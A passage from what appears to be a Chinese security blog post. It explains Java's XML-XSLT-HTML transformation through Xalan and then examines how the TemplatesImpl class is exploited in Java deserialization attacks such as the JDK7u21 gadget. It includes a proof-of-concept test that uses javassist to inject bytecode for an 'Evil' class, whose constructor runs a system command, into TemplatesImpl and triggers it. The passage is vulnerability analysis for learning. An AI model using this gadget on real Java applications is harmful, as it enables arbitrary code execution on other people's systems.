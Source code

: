 执行上面代码最终会在文件夹下生成一个1.html文件，1.html跟上述第一部分的示例转换结果一致。<br>
通过上面代码，我们可以总结出一个XML-XSLT-HTML的转换在Java中一般有以下4个步骤：
1. 创建一个TransformFactory对象；
1. 调用TransformFactory.newTemplates通过XSL样式表创建一个Templates对象；
1. 调用Templates.newTransformer创建一个Transformer对象；
1. 最后通过Transformer.transform将源-XML文档转换为目标-HTML文档。
其中需要注意的是以上接口的**缺省实现**都是Xalan提供的com.sun.org.apache.xalan库内对应的实现类来创建对象。

TransformFactory.newTemplates通过XSL样式表创建一个Templates对象，其实现主要由三个部分：
1. 如果_useClasspath属性为true，则尝试从CLASSPATH加载文件，并使用XSL样式表文件加载后的Class创建模板对象：调用new TemplatesImpl(new Class[]%7Bclazz%7D, transletName, null, _indentNumber, this)；
1. 如果_autoTranslet为true，将尝试在不编译样式表的情况下从translet类加载字节码来创建对象；
1. 以上两种条件不满足，直接创建并初始化样式表编译器来编译样式表，生成字节码，通过字节码创建模板对象。


## 二、TemplatesImpl被反序列化漏洞利用的特性

清楚了TemplatesImpl的方法和使用方式，接下来这部分我们探索下它跟反序列化漏洞的关系。

### <a class="reference-link" name="1%E3%80%81JDK7u21%E7%9A%84TemplatesImpl%E5%88%A9%E7%94%A8%E6%B5%8B%E8%AF%95"></a>1、JDK7u21的TemplatesImpl利用测试

我们将[JDK7u21分析poc](https://l3yx.github.io/2020/02/22/JDK7u21%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Gadgets/#TemplatesImpl)的`return templates;`改为`templates.newTransformer()`进行测试。

```
public void testTemplate() throws Exception %7B
    // 1、通过javassist创建一个Evil类的字节码，设置它的构造方法内部调用exec方法
    ClassPool pool = ClassPool.getDefault();//ClassPool对象是一个表示class文件的CtClass对象的容器
    CtClass cc = pool.makeClass("Evil");//创建Evil类
    cc.setSuperclass((pool.get(AbstractTranslet.class.getName())));//设置Evil类的父类为AbstractTranslet
    CtConstructor cons = new CtConstructor(new CtClass[]%7B%7D, cc);//创建无参构造函数
    cons.setBody("%7B Runtime.getRuntime().exec(\"calc\"); %7D");//设置无参构造函数体
    cc.addConstructor(cons);
    byte[] byteCode = cc.toBytecode();//toBytecode得到Evil类的字节码
    byte[][] targetByteCode = new byte[][]%7BbyteCode%7D;
    // 2、创建一个TemplatesImpl对象，设置属性_bytecodes值为Evil类的字节码
    TemplatesImpl templates = TemplatesImpl.class.newInstance();
    setFieldValue(templates, "_bytecodes", targetByteCode);//设置_bytecodes是属性
    setFieldValue(templates, "_class", null);
    setFieldValue(templates, "_name", "xx");
    setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
    // 3、调用newTransformer()
    templates.newTransformer();
%7D

//通过反射为obj的属性赋值
private static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception %7B
    Field field = obj.getClass().getDeclaredField(fieldName);
    field.setAccessible(true);
    field.set(obj, value);
%7D
```
